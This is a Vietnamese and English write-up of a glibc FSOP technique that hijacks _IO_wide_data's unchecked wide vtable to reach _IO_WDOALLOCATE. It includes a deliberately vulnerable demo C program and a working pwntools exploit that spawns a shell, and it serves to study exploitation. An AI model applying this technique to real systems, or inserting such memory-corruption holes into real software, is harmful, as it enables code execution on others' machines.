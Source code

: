 Lấy cảm hứng từ 4 nguồn: [this](https://aneii11.github.io/p/fsop-code-execution/#targeting-wide_data) , [this](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43), [this](https://github.com/hieuvd341/super-duper-couscous/blob/master/CTFs/Docs/FSOP/readme.md) and [this](https://www.youtube.com/watch?v=vkUR58xxSFI).
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).

# Scenery

Có khả năng ghi đè file struct nào đó của chương trình, required file pointer address. Có thể overwrite lên file struct đó ít nhất `0xe0 bytes`.

Có libc leak.

Bài này là fake vtable sang một buffer mới -> cần biết địa chỉ của buffer đó, required buffer address. Buffer có thể nhập ít nhất `0xf0 bytes`.

Có hàm `win`, required `win` address.

Ở phiên bản khó hơn là không có address buffer + giới hạn input size + không có `win` function  sẽ update ở readme2.

# POC

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    system("/bin/sh");
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("win leak: %p\n", &win);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    printf("libc leak: %p\n", stdout);

    buf = malloc(0x100);
    printf("buffer leak: %p\n", buf);
    printf("fake vtable: ");
    read(0, buf, 0x100);

    printf("overwrite file struct: ");
    read(0, fp, 0x100);

    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho các leak cần thiết, `win` address, libc base, buf base. Lần `read` đầu tiên sẽ input vào buffer để tạo ra một fake vtable. Lần `read` thứ hai là để overwrite file struct, trigger fsop.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 244
b *main + 291
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"win leak: ")
win = int(p.recvline(), 16)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"buffer leak: ")
buffer = int(p.recvline(), 16)
print(hex(buffer))

fakevtable = fake_vtable = p64(0) * (0xE0//8) + p64(buffer + 0xe0 + 8 - 0x68) + p64(win)

fp = FileStructure()
fp.flags = 0xfbad2484
fp._lock = buffer + 0x1000 
fp._wide_data = buffer
fp.vtable = libc_base  + 0x1ce4a0 - 0x38

p.sendafter(b"fake vtable: ", fakevtable)
p.sendafter(b"struct: ", bytes(fp))

p.interactive()
```

<mark>Với các phiên bản glibc khác, chỉ cần thay đổi lại đoạn tính toán libc base và offset của `fp.vtable`  (sao cho gọi được `_IO_wfile_overflow`)</mark>

# Idea

This exploit came from pwn.college **file struct exploit** module:

![](attachments/image00.png)

## `_IO_wide_data`

`wide_data` là một trường tồn tại ở các FILE structure hiện đại. Nó được tạo để xử lí các wide character stream (ex: unicode) Chứa các trường tương tự như FILE. Nó cũng chứa cả vtable pointer luôn.

Trong libc 2.39, `wide_data` được định nghĩa như sau:
[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L121)
![](attachments/image01.png)

**Fully exploit**:

1. Fake `file._wide_vtable` tại 1 vùng nhớ ta kiểm soát được.
2. `file.wide_data -> vtable` trỏ đến exploit_vtable
3. overwrite `file.vtable` sao cho `IO_wfile_overflow` được gọi.
4. `_IO_wdoallocbuf` sẽ được gọi.
5. `_IO_wdoallocbuf` sẽ gọi `_IO_wide_data.vtable` **with no check**.

## Call `_IO_wfile_overflow`

Hàm `fwrite` sẽ gọi tới `_IO_new_file_xsputn`.

![](attachments/image06.png)

Exploit sẽ shift vtable đi sao cho thay vì gọi `_IO_new_file_xsputn` thì sẽ gọi `__GI__IO_wfile_overflow`, cách offset lớn nhưng vẫn validate do thuộc vùng `libc vtable area`.

![](attachments/image05.png)

Ở trên là vtable gốc, ở dưới là vtable fake.

## Call `_IO_wdoallocbuf`

Let’s see the flow of `_IO_wfile_overflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L406)
![](attachments/image02.png)

To call `_IO_wdoallocbuf` we have to set some flags and value to bypass the check. ~~There’re 3 conditions must be met~~:

- Turn off flag for `_IO_NO_WRITES`, which is `0x0008`.

- Turn off flag for `_IO_CURRENTLY_PUTTING`, which is `0x0800`.

- `f->_wide_data->_IO_write_base == nullptr`. This one is quite easy to set, since the challenge give us 2 buffer.

Theo code path `2.39` thì chỉ cần điều kiện đầu và một trong 2 cái còn lại thỏa mãn (dấu `||` trong `if`). Nhưng `2.35` thì cần cả hai. (Cứ xét đủ just in case).

## Call `_IO_WDOALLOCATE`

Inside the `_IO_WDOALLOCATE` function:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wgenops.c#L364)
![](attachments/image03.png)

Again, we still have to bypass 2 checks for it to call `_IO_WDOALLOCATE`, which jumps to `_IO_wide_jumps` with no check:

- `fp->_wide_data->_IO_buf_base == nullptr`. Again, this is easy.

- Turn off the flag for `_IO_UNBUFFERED`, which is `0x0002`.

My exploit’s flag is `filestr.flags = 0xfbad2484`, which passed all the check.

And we all done. We just need to fake `fp->_wide_data->vtable` for `win` to fall right into `_IO_WDOALLOCATE` entry which is at `vtable+0x68`. 

Why? 

Ta gọi hàm `win` thông qua `_IO_WDOALLOCATE (fp)`. Và `_IO_WDOALLOCATE (fp)` lại được định nghĩa như sau:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L224)
```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
```

Đây chính là điểm tạo ra khác biệt. Khi mình so sánh code của 2 macro `JUMP0` và `WJUMP0` thì thấy `WJUMP0` hoàn toàn không gọi đến `IO_validate_vtable`

- `JUMP0` nè

```
#define _IO_DOALLOCATE(FP) JUMP0 (__doallocate, FP)
#define JUMP0(FUNC, THIS) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS)

# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)	\
			     + (THIS)->_vtable_offset)))
```

- `WJUMP0` nè

```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)
#define _IO_WIDE_JUMPS(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

Nói chung là không có cái check nào ở đây cả.

## Attention

While exploit, becareful when set the `_lock` value

![](attachments/image04.png)